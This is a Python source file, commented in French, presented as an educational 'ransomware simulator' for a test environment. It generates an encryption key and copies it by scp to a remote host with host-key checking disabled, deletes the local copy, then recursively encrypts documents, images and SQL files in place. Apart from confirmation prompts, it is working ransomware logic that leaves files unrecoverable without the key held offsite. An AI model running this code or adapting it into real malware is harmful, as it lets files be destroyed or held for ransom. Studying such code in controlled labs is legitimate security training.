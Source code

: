 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION AMÉLIORÉE AVEC CONTRÔLES DE SÉCURITÉ
import os
import sys
import subprocess
from cryptography.fernet import Fernet
from pathlib import Path
from datetime import datetime

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/Desktop/script/cle_dechiffrement"
KEY_FILE = "decryption_key.key"
LOG_FILE = "ransomware_simulator.log"

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def log_action(self, message):
        """Journalise toutes les actions importantes"""
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        log_entry = f"[{timestamp}] {message}\n"
        
        with open(LOG_FILE, 'a') as f:
            f.write(log_entry)
        print(message)

    def clear_screen(self):
        """Efface l'écran du terminal"""
        os.system('cls' if os.name == 'nt' else 'clear')
    
    def show_banner(self):
        """Affiche une bannière stylisée"""
        self.clear_screen()
        print("""
██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
        """)
        print("=== SIMULATEUR ÉDUCATIF - MENU PRINCIPAL ===")
        print("⚠️ À utiliser uniquement en environnement de test ⚠️\n")

    def confirm_action(self, message):
        """Demande une confirmation avant une action critique"""
        print(f"\n⚠️ {message} ⚠️")
        return input("Confirmer (o/n): ").lower() == 'o'

    def generate_key(self):
        """Génère une clé de chiffrement"""
        if not self.confirm_action("Cela générera une nouvelle clé de chiffrement. Continuer?"):
            return False

        self.log_action("🔑 Tentative de génération de clé...")
        try:
            self.key = Fernet.generate_key()
            self.cipher = Fernet(self.key)
            self.log_action(f"✅ Clé générée: {self.key.decode()[:12]}... (tronquée pour sécurité)")
            return True
        except Exception as e:
            self.log_action(f"❌ Erreur lors de la génération de clé: {e}")
            return False

    def transfer_key_ssh(self):
        """Transfère la clé via SSH natif"""
        if not self.key:
            self.log_action("❌ Aucune clé générée!")
            return False

        if not self.confirm_action(f"Transférer la clé vers {SSH_SERVER}? Cela supprimera la copie locale après transfert."):
            return False

        try:
            self.log_action("🔄 Transfert de la clé en cours...")
            
            # Crée un fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # Test la connexion SSH
            subprocess.run(['ssh', f'{SSH_USER}@{SSH_SERVER}', 'true'], check=True)
            
            # Crée le répertoire distant
            subprocess.run([
                'ssh',
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # Copie la clé via SCP
            subprocess.run([
                'scp',
                '-o', 'StrictHostKeyChecking=no',
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            ], check=True)
            
            # Vérification du transfert
            result = subprocess.run([
                'ssh',
                f'{SSH_USER}@{SSH_SERVER}',
                f'ls {REMOTE_DIR}/{KEY_FILE}'
            ], capture_output=True, text=True)
            
            if result.returncode != 0:
                raise Exception("Échec de la vérification du transfert")
            
            # Nettoyage sécurisé
            os.remove(KEY_FILE)
            
            self.log_action(f"📤 Clé transférée avec succès vers {SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            self.log_action(f"❌ Échec du transfert SSH: {e}")
            if os.path.exists(KEY_FILE):
                self.log_action("⚠️ La clé est restée locale dans: " + os.path.abspath(KEY_FILE))
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if Path(filepath).suffix.lower() not in self.target_exts:
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            self.log_action(f"🔒 Fichier chiffré: {filepath}")
            return True
        except Exception as e:
            self.log_action(f"⚠️ Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path='.'):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            self.log_action("❌ Le dossier spécifié n'existe pas!")
            return

        if not self.confirm_action(f"Cela chiffrera TOUS les fichiers cibles dans {path}. CONTINUER?"):
            return

        encrypted = errors = 0
        self.log_action(f"🔒 Début du chiffrement de: {path}")
        
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    if self.encrypt_file(os.path.join(root, file)):
                        encrypted += 1
                    else:
                        errors += 1
        
        self.log_action(f"✅ Chiffrement terminé dans {path}!")
        self.log_action(f"   Fichiers chiffrés: {encrypted}")
        self.log_action(f"   Erreurs: {errors}")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print("Options disponibles:")
            print("1. Générer une nouvelle clé")
            print("2. Transférer la clé actuelle")
            print("3. Chiffrer un dossier")
            print("4. Tout faire (mode automatique)")
            print("5. Afficher le journal")
            print("0. Quitter\n")
            
            choice = input("Votre choix (0-5): ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                if self.key:
                    self.transfer_key_ssh()
                else:
                    self.log_action("❌ Vous devez d'abord générer une clé!")
            elif choice == "3":
                if self.key:
                    path = input("\nEntrez le chemin du dossier à chiffrer: ").strip()
                    self.encrypt_directory(path)
                else:
                    self.log_action("❌ Vous devez d'abord générer une clé!")
            elif choice == "4":
                self.log_action("\n🚀 Mode automatique activé...")
                if self.generate_key():
                    if self.transfer_key_ssh():
                        path = input("\nEntrez le chemin du dossier à chiffrer: ").strip()
                        self.encrypt_directory(path)
            elif choice == "5":
                self.show_log()
            elif choice == "0":
                self.log_action("\n👋 Au revoir!")
                sys.exit(0)
            else:
                self.log_action("\n❌ Option invalide!")
            
            input("\nAppuyez sur Entrée pour continuer...")

    def show_log(self):
        """Affiche le journal des actions"""
        self.clear_screen()
        print("=== JOURNAL D'ACTIVITÉ ===")
        
        if os.path.exists(LOG_FILE):
            with open(LOG_FILE, 'r') as f:
                print(f.read())
        else:
            print("Aucune entrée de journal trouvée.")
        
        input("\nAppuyez sur Entrée pour retourner au menu...")

if __name__ == '__main__':
    try:
        # Vérifie que SSH est installé
        subprocess.run(['ssh', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
        
        sim = RansomwareSimulator()
        sim.log_action("=== DÉMARRAGE DU SIMULATEUR ===")
        sim.show_menu()
        
    except subprocess.CalledProcessError:
        print("\n❌ Erreur: OpenSSH doit être installé")
        print("Installez-le avec: sudo apt install openssh-client")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\n\n⏹️ Opération annulée par l'utilisateur")
        sys.exit(0)
    except Exception as e:
        print(f"\n❌ Erreur inattendue: {e}")
        sys.exit(1)